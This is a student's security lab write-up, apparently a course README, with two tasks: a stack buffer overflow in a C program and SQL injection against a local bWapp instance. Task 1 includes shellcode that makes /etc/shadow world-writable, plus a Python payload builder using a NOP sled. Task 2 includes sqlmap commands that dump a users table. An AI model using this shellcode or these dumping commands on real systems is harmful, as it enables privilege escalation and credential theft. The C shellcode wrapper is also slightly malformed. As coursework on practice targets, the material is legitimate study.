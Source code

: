# Lab #1,2110011, Tran Dai Duong, INSE331280E_03FIE
# Task 1: Software buffer overflow attack
 
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in C. This shellcode executes chmod 777 /etc/shadow without having to sudo to escalate privilege
```
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f"
"\x3a\x56\x81\xc6\x23\x45\x35\x21"
"\x89\x74\x24\xfc\xc7\x44\x24\xf8"
"\x2f\x2f\x73\x68\xc7\x44\x24\xf4"
"\x2f\x65\x74\x63\x83\xec\x0c\x89"
"\xe3\x66\x68\xff\x01\x66\x59\xb0"
"\x0f\xcd\x80";

int
void main() {
    int (*ret)() = (int(*)())code;
}
```
**Question 1**:
- Compile both C programs and shellcode to executable code. 
- Conduct the attack so that when C executable code runs, shellcode willc also be triggered. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
  
**Answer 1**: Must conform to below structure:

Description text (optional)
This task demonstrates how to exploit a buffer overflow vulnerability in a C program to execute arbitrary shellcode that changes the permissions of the /etc/shadow file. The vulnerable program does not check the length of the input and can be manipulated to overwrite the return address, allowing us to redirect execution to our shellcode.

``` 
1. Compile the Vulnerable Program: Compile the provided vulnerable C program with stack protection disabled and executable stacks enabled : gcc -o vulnerable vulnerable.c -fno-stack-protector -z execstack
2. Compile the Shellcode: Save the shellcode into a new C file called shellcode.c, then compile it : gcc -o shellcode shellcode.c -fno-stack-protector -z execstack
3. Create the Payload: Write a Python script (payload.py) to create a payload consisting of a NOP sled, shellcode, and the return address.
# payload.py
import struct

buffer_size = 16
nop_sled = b"\x90" * 40  # NOP sled
shellcode = (
    b"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f"
    b"\x3a\x56\x81\xc6\x23\x45\x35\x21"
    b"\x89\x74\x24\xfc\xc7\x44\x24\xf8"
    b"\x2f\x2f\x73\x68\xc7\x44\x24\xf4"
    b"\x2f\x65\x74\x63\x83\xec\x0c\x89"
    b"\xe3\x66\x68\xff\x01\x66\x59\xb0"
    b"\x0f\xcd\x80"
)

# Replace with the address of the NOP sled
ret_address = struct.pack("<I", 0xbffff0c0)  # Example address; adjust as needed

# Create payload
payload = nop_sled + shellcode + ret_address

# Write payload to file
with open("payload.bin", "wb") as f:
    f.write(payload)
4. Run the Attack: Execute the vulnerable program with the crafted payload. : ./vulnerable "$(cat payload.bin)"
5. Verify Permissions Change: Check the permissions of /etc/shadow to confirm the attack was successful: ls -l /etc/shadow 

	
```

output screenshot (optional)
![image](https://github.com/user-attachments/assets/144406c9-2524-42ed-baf4-987607596328)


**Conclusion**: In this task, we successfully exploited a buffer overflow vulnerability in a C program to execute arbitrary shellcode that altered the permissions of the /etc/shadow file.

# Task 2: Attack on the database of bWapp 
- Install bWapp (refer to quang-ute/Security-labs/Web-security). 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
- To retrieve all available databases from the bWapp application, we will use sqlmap with the --dbs option.

First, we need to identify the target endpoint. After accessing the login page, we can simulate a login attempt with random credentials and inspect the request in the Network tab (F12) to find the vulnerable parameter.

Enter a username and password (e.g., admin/admin) and submit the form.

The target endpoint for SQL injection is: http://localhost:8025/login.php?username=admin&password=admin
![image](https://github.com/user-attachments/assets/b1a1b818-ad24-44c4-a5f6-9473e278cb1a)


**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
After identifying the database (e.g., bWapp), run the following command to get the list of tables within that database:
python sqlmap.py -u "http://localhost:8025/login.php" --data="username=admin&password=admin" -D bWapp --tables
Assuming there is a table named users, use the following command to extract user information: 
python sqlmap.py -u "http://localhost:8025/login.php" --data="username=admin&password=admin" -D bWapp -T users --dump
**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:


